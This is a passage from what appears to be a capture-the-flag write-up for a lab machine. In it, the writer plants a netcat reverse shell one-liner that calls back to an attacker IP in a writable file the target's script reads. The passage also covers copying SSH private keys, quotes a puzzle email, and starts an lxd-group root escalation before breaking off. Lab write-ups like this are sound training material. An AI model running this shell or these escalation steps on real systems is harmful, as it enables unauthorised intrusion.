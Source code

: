 - We did not have permissions to write to the script but we had access to write to `.files/.quotes` file.

- This is because it seems we were a member of `cage` group this whole time. 

- Anyway, I've replaced the content of `.quotes` file with the following reverse shell and waited for the script to trigger again

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.53.46 3131 >/tmp/f
```

- This allowed us to gain a reverse shell as cage.

- The first thing I did was to check the home directory ; 

- We can obtain ssh access as cage in different methods

	1. generate a ssh key pair (private + public) and add the public key to the `.ssh/authorized_keys`
	2. copy `.ssh/id_rsa` to attack box and use that to connect as cage.

- First flag is in `/home/cage/Super_Duper_Checklist` file

- Also, `/home/cage/email_backup/email_3` contains the following note that seemed to contain a password but proved useless in the end. (or there's another escalation path I didn't find :) )

```
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```

#### PRIVILEGE ESCALATION ---> ROOT

- `cage` belongs to group `lxd`;

- This would allow us to compile an lxd container locally, as root, and then transfer the image to the server and use that container to mount the root of the actual filesystem, enabling us to read files from it.

- Here are the steps
